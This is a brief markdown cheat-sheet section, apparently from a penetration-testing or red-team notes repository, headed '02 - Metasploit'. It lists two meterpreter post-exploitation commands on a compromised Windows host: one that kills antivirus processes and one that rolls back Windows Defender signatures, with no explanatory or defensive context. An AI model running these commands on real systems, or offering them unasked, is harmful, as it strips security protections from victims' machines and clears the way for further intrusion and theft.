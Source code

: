 # 02 - Metasploit

### 2.1 - Disable Endpoints

`meterpreter > run post/windows/manage/killav`

### 2.2 - Remove Definitions

`meterpreter > run post/windows/manage/rollback_defender_signatures action=rollback`